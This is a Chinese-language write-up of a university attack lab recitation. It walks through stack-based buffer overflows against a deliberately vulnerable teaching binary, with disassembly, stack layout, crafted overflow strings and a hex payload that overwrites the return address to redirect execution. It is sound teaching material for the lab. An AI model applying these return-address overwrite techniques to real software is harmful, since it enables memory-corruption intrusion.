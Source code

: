 # Attack lab recitation

<!--more-->

输入`gdb activity`，开启 activity 之旅。

> Objective: The goal of this activity is to input a string that causes the program to call win(0x15213),
> and thereby win a cookie.
> 在开启之前，先查看一下`solve`函数的内容：

```c
void solve(void) {
    volatile long before = 0xb4;
    char buf[16];
    volatile long after = 0xaf;

    Gets(buf);

    if (before == 0x3331323531) {
        win(0x15213);
    }

    if (after == 0x3331323831) {
        win(0x18213);
    }
}
```

看一下`solve`的汇编代码：

```
(gdb) disas solve
Dump of assembler code for function solve:
   0x00000000000011df <+0>:     endbr64
   0x00000000000011e3 <+4>:     sub    $0x38,%rsp
   0x00000000000011e7 <+8>:     movq   $0xb4,0x28(%rsp)
   0x00000000000011f0 <+17>:    movq   $0xaf,0x8(%rsp)
   0x00000000000011f9 <+26>:    lea    0x10(%rsp),%rdi
   0x00000000000011fe <+31>:    callq  0x1279 <Gets>
   0x0000000000001203 <+36>:    mov    0x28(%rsp),%rdx
   0x0000000000001208 <+41>:    movabs $0x3331323531,%rax
   0x0000000000001212 <+51>:    cmp    %rax,%rdx
   0x0000000000001215 <+54>:    je     0x1230 <solve+81>
   0x0000000000001217 <+56>:    mov    0x8(%rsp),%rdx
   0x000000000000121c <+61>:    movabs $0x3331323831,%rax
   0x0000000000001226 <+71>:    cmp    %rax,%rdx
   0x0000000000001229 <+74>:    je     0x123c <solve+93>
   0x000000000000122b <+76>:    add    $0x38,%rsp
   0x000000000000122f <+80>:    retq
   0x0000000000001230 <+81>:    mov    $0x15213,%edi
   0x0000000000001235 <+86>:    callq  0x1169 <win>
   0x000000000000123a <+91>:    jmp    0x1217 <solve+56>
   0x000000000000123c <+93>:    mov    $0x18213,%edi
   0x0000000000001241 <+98>:    callq  0x1169 <win>
   0x0000000000001246 <+103>:   jmp    0x122b <solve+76>
End of assembler dump.
```

函数给`solve`预留了 56 个字节的空间：

1. `before = 0xb4`移动到`%rsp + 40`处
2. `after = 0xaf`移动到`%rsp + 8`处
3. `%rdi = %rsp + 16`
4. 调用`gets`
5. `%rdx = *(%rsp + 40)`，把`before`赋给`%rdx`
6. `%rax = $0x3331323531`
7. 接下来是个判断：

```c
if(rdx == rax) {
    edi = 0x15213;
    callq win
}
rdx = *(rsp + 8);
rax = 0x3331323831;
if(rdx == rax) {
  edi = 0x18213;
  callq win;
}
rsp += 40;
return;
```

完成`gets`之前的调用后，栈分布大致如下（一共 56 个字节的分配）：

1. `rsp`处没有值
2. `rsp + 8`处存储`after = 0xaf`
3. `rsp + 16 ~ rsp + 24`处存储 16 字节的`buf`
4. `rsp + 32`处 8 个字节空闲
5. `rsp + 40`处存储`before = 0xb4`
6. `rsp + 56`处存储的是调用`solve`的`return address`

### 普通缓冲区溢出

查看代码可以理解，要让程序调用`win(0x15213)`，需要让`rdx == 0x3331323531`，而在这之前`rdx = before`，所以我们的根本目的是让`before = 0x3331323531`。就得让`buf`前 24 个字节为 0，后八个字节等于`0x3331323531`。该机器为小端法机器，那么这 8 个字节从低地址到高地址的顺序应该是：`0x31 0x35 0x32 0x31 0x33 0x00 0x00 0x00`，这 8 个个字节翻译成`ASCII码`就是`15213`。此外`gets`一定要读到`\n`字符，它会把`\n`替换为`\0`字符。它不是读到`\0`字符就终止。后面不需要加`0`，因为`0`的`ASCII`编码是`0x30`。如果最后加了 3 个`0`的话，最后 8 个字节的地址就会变成`0x31 0x35 0x32 0x31 0x33 0x30 0x30 0x30`。

> 有几条要注意的点：
>
> 1. 机器为小端法机器，写内存的时候要把数字倒过来
> 2. `0x00`是在 ASCII 码里面是空字符，`0x30`在 ASCII 码里面是`0`
> 3. `gets`要读到`\n`，他会把`\n`替换成`\0`存储在`buf`中，无需手动`\0`
> 4. 输入的时候只能输入字符串，而不能输入 10 进制或者 16 进制的值，如果函数没有调用`atoi`，输入一律被当作字符串处理。因此我们需要输入`0x3331323531`对应的`ASCII`编码，而不是这个值本身。

输入`01234567890123456789012315213`，成功调用`win(0x15213)`。如下：

```
gwen@gwen-virtual-machine:~/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src$ ./activity
01234567890123456789012315213
You win 1 cookie! Great start!
Returning normally from main
```

### 包含返回地址攻击的缓冲区溢出

要让这个`solve`函数跳转到我们插入的代码段（未开启栈随机化/`canary`/`NX bit`及其他防护机制，不考虑`nop sled`），我们需要利用缓冲区溢出，让`return address`修改为我们所插入的代码段的地址。我们需要让`buf`的前 40 个字节为任意内容，最后 8 个字节为我们插入的攻击代码的地址。

我们这次的目的是想调到`<solve +93>`位置处，本次运行过程中该位置的地址是`0x000055555555523c`，过会儿我们要将其插入`buf`的第 48-48 字节处。该地址的值换算成小端法是`0x3c 0x52 0x55 0x55 0x55 0x55 0x00 0x00`。其对应的`ASCII码`是`<RUUUU`，后面的`null`为`0x00`。我们要让程序返回的时候跳转到`mov $0x18213,%edi`。那么构造的字符串应该是`0123456789012345678901234567890123456789<RUUUU`。结果如下：

```
43          if (after == 0x3331323831) {
(gdb) n
solve () at activity.c:44
44              win(0x18213);
(gdb)
You win 2 cookies! Woohoo!
0x0000000000000000 in ?? ()
```

成功！

### 引导程序到攻击代码

此处我们进行更进阶的攻击，程序中函数`solve()`并未调用过`win(0x18613)`，让我们尝试返回到`win(0x18613)`中。此时我们不光只破解`solve()`，还需要对`win`函数的代码进行分析。结果如下：

```
(gdb) disas win
Dump of assembler code for function win:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     sub    $0x8,%rsp
   0x0000555555555171 <+8>:     cmp    $0x15213,%edi
   0x0000555555555177 <+14>:    je     0x5555555551a7 <win+62>
   0x0000555555555179 <+16>:    cmp    $0x18213,%edi
   0x000055555555517f <+22>:    je     0x5555555551b5 <win+76>
   0x0000555555555181 <+24>:    cmp    $0x18613,%edi
   0x0000555555555187 <+30>:    je     0x5555555551c3 <win+90>
   0x0000555555555189 <+32>:    mov    0x2ea1(%rip),%eax        # 0x555555558030 <mystery>
   0x000055555555518f <+38>:    cmp    $0x15513,%eax
   0x0000555555555194 <+43>:    je     0x5555555551d1 <win+104>
   0x0000555555555196 <+45>:    lea    0xed3(%rip),%rdi        # 0x555555556070
   0x000055555555519d <+52>:    callq  0x555555555030 <puts@plt>
   0x00005555555551a2 <+57>:    add    $0x8,%rsp
   0x00005555555551a6 <+61>:    retq
   0x00005555555551a7 <+62>:    lea    0xe5a(%rip),%rdi        # 0x555555556008
   0x00005555555551ae <+69>:    callq  0x555555555030 <puts@plt>
   0x00005555555551b3 <+74>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551b5 <+76>:    lea    0xedc(%rip),%rdi        # 0x555555556098
   0x00005555555551bc <+83>:    callq  0x555555555030 <puts@plt>
   0x00005555555551c1 <+88>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551c3 <+90>:    lea    0xe5e(%rip),%rdi        # 0x555555556028
   0x00005555555551ca <+97>:    callq  0x555555555030 <puts@plt>
   0x00005555555551cf <+102>:   jmp    0x5555555551a2 <win+57>
   0x00005555555551d1 <+104>:   lea    0xe78(%rip),%rdi        # 0x555555556050
   0x00005555555551d8 <+111>:   callq  0x555555555030 <puts@plt>
   0x00005555555551dd <+116>:   jmp    0x5555555551a2 <win+57>
End of assembler dump.
```

我们需要跳转到`if(arg == 0x18613)`后面那句，也就是`<win+90>`处，该条指令的地址是`0x00005555555551c3`，转化成小端法是`0xc3 0x51 0x55 0x55 0x55 0x55 0x00 0x00`，转化成`ASCII码`也就是`ÃQUUUU`。因此，我们构造的字符串应该是`0123456789012345678901234567890123456789ÃQUUUU`。结果如下：

```
(gdb) p $rsp
$2 = (void *) 0x555555559018 <my_stack+4056>
(gdb) x/s 0x555555559018
0x555555559018 <my_stack+4056>: "ÃQUUUU"
(gdb) x/6bx 0x555555559018
0x555555559018 <my_stack+4056>: 0xc3    0x83    0x51    0x55    0x55    0x55
```

这里出现了一点问题，就是`Ã`采用`Unicode`扩展编码，其编码为`0xc3 0x83`，而我们仅仅需要`0xc3`，因此我们需要将 16 进制的地址写在文件里，然后用文件作为`activity`的输入。

[Slides 中最后一页](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f23/www/recitations/rec04_slides.pdf)告诉我们，提供了`hex2raw`脚本，可以把 16 进制值写到`input2.txt`中，然后通过`hex2raw`转化为`input2.bin`。我们在`input2.txt`中写入值`30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 31 35 32 31 33 00 30 31 32 33 34 35 36 37 38 39 c3 51 55 55 55 55`，将其转化，然后输入`./activity < ../inputs/input2.bin`。

结果如下：

```
(gdb) r < ../inputs/input2.bin
Starting program: /home/gwen/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src/activity < ../inputs/input2.bin
You win 3 cookies! That's right!

Program received signal SIGSEGV, Segmentation fault.
```

成功！

